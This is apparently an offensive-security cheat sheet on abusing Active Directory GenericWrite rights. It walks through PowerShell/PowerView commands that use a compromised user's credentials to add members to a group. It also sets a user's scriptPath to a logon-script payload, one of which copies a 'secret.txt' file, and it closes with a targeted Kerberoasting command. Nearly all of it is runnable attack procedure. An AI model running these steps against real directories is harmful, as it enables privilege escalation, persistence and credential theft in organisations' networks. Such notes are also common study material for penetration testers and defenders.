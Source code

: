 # GenericWrite
## On a `Group` Object `AddMember`

1. **Authenticate as the Compromised User**:  
   - Create a `PSCredential` object for the user with group modification rights:  
     ```powershell
     $SecPassword = ConvertTo-SecureString '<PASSWORD>' -AsPlainText -Force
     $Cred = New-Object System.Management.Automation.PSCredential('DOMAIN\USERNAME', $SecPassword)
     ```  
     *(Replace `DOMAIN\USERNAME` and `<PASSWORD>` with the target user's credentials, e.g., `corp.com\ali`).*  

2. **Verify Current Group Membership**:  
   - Check existing members of the target group (e.g., `Help Desk Level 1`):  
     ```powershell
     Get-DomainGroupMember -Identity "GROUP_NAME" | Select MemberName
     ```  
     or using native AD cmdlets:  
     ```powershell
     Get-ADGroupMember -Identity "GROUP_NAME" | Select-Object Name
     ```  

3. **Add the User to the Group**:  
   - Use PowerView's `Add-DomainGroupMember` (or `Add-ADGroupMember`):  
     ```powershell
     Add-DomainGroupMember -Identity 'GROUP_NAME' -Members 'TARGET_USER' -Credential $Cred -Verbose
     ```  
     *(Replace `GROUP_NAME` and `TARGET_USER` with the group and user to add, e.g., `Help Desk Level 1` and `ali`).*

4. **Confirm Success**:  
   - Re-run the membership check to ensure the user was added:  
     ```powershell
     Get-DomainGroupMember -Identity "GROUP_NAME" | Where-Object { $_.MemberName -eq 'TARGET_USER' }
     ```  

## On a `User` Object `Logonscript` _Set-DomainObject_
**Tools**: PowerView
### Workflow

#### 1. **Create a Payload Script**

Prepare a script to perform the desired action. Save it in a location accessible by the target system.

- **Example 1**: List directory contents
    
    ```cmd
    echo "dir C:\Users\Alice\Desktop > C:\Temp\output.txt" > \\temp\\payload.ps1
    ```
#### 2. **Set the `scriptPath` Attribute**

- Use PowerView or another AD tool to modify the `scriptPath` of the target user object.

    ```powershell
    Set-DomainObject -Identity alice -Set @{ scriptPath = "\\temp\\payload.ps1" }
    ```
  
- **Example 2**: Copy a file
    
    ```cmd
    echo "copy C:\Users\Alice\Desktop\secret.txt C:\Temp\copied_secret.txt" > \\temp\\payload.ps1
    ```
- **Set the `scriptPath` Attribute**
    ```powershell
    Set-DomainObject -Identity alice -Set @{ scriptPath = "\\temp\\payload.ps1" }
    ```
#### 3. **Retrieve the Results**

Check the output location defined in your script:

- Example: `C:\Temp\output.txt`
    
- Example: `C:\Temp\copied_secret.txt`

### A targeted `kerberoast` attack can be performed using [targetedKerberoast.py](https://github.com/ShutdownRepo/targetedKerberoast).
``` shell
python targetedKerberoast.py -v -d 'domain.com' -u 'user' -p 'password' --dc-ip <DomainController-IP>
```

        

